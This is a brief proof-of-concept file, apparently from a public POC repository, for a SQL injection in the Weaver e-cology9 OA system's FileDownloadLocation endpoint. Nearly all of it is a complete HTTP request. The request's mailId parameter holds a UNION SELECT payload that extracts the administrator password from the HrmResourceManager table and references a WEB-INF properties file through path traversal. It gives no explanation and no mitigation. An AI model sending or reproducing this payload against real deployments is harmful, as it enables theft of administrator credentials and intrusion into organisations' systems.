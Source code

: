 # ecology9_FileDownloadLocation_sqli

product: ecology9
from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEe-cology9%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3FileDownloadLocation%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

```
GET /weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownloadLocation?ddcode=7ea7ef3c41d67297&downfiletype=eml&download=1&mailId=1123+union+select+*+from+(select+1+as+resourceid,'../ecology/WEB-INF/prop/mobilemode.properties'+as+x2,'3'+as+x3,(select++*+from+(select+*+from+(select+password+from+HrmResourceManager+where+id=1)x)x)+as+x4,5+as+x5,6+as+x6)x+where+1=1&mailid=action.WorkflowFnaEffectNew&parentid=0 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.0.0 Safari/537.36
```
